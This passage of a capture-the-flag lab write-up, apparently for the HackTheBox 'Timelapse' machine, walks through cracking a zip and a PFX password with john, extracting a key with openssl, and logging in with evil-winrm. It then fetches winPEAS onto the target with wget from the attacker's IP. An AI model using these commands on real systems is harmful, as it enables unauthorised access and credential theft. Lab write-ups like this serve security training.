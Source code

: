 We can see the `winrm_backup.zip` file in the Dev directory. Let's download it:
`get winrm_backup.zip`
Seems like the zip is password protected, let's try to decrypt it by john:
`zip2john winrm_backup.zip > hash.txt`
`john -w=/usr/share/wordlists/rockyou.txt hash.txt`

We found the password: `supremelegacy`
After extracting, we found pfx file. Lets try to decrypt it again using john
`pfx2john legacyy_dev_auth.pfx > pfx_hash.txt`

The password is: `thuglegacy`

Now, lets extract the crt and key file so that we can try to log in via evil-winrm.

https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/

`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes`
`openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem`

https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file
`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out timelapse.key`
`openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out timelapse.crt`

`openssl rsa -in timelapse.key -out timelapse-decrypted.key`

Lets try to connect with evilwinrm

`evil-winrm -i 10.10.11.152 -c timelapse.crt -k timelapse.key`

We got in! and the user flag is located at: `C:\Users\legacyy\Desktop\user.txt`

Let's list all the users:

```txt
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```

Checking privileges with `net user`

```txt
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
```

`wget http://10.10.14.28/winPEASx86_ofs.exe -OutFile c:\\Users\legacyy\\Documents\\winPEAS.bat`
If we want to fetch the file from website.
OR
We can upload directy from our VM using the following command:

`upload /home/kali/hackthebox/winPEAS.bat`

After running the winPEAS, we found the powershell log directory, let's see if we can find any important information there....
